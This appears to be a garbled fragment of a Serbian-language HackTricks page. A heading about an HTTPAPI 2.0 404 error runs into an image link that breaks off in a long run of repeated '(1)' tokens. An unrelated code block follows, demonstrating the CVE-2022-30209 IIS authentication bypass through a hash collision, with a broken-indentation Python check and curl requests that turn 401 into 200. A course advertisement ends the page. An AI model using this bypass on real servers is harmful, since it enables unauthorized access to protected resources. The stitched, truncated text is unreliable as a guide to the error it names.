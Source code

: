 ## HTTPAPI 2.0 404 Greška

Ako vidite grešku kao što je sledeća:

!\[]\(<../../.gitbook/assets/image (446) (1) (2) (2) (3) (3) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1

```python
# script for sanity check
> type test.py
def HashString(password):
j = 0
for c in map(ord, password):
j = c + (101*j)&0xffffffff
return j

assert HashString('test-for-CVE-2022-30209-auth-bypass') == HashString('ZeeiJT')

# before the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 401 Unauthorized

# after the successful login
> curl -I -su 'orange:ZeeiJT' 'http://<iis>/protected/' | findstr HTTP
HTTP/1.1 200 OK
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
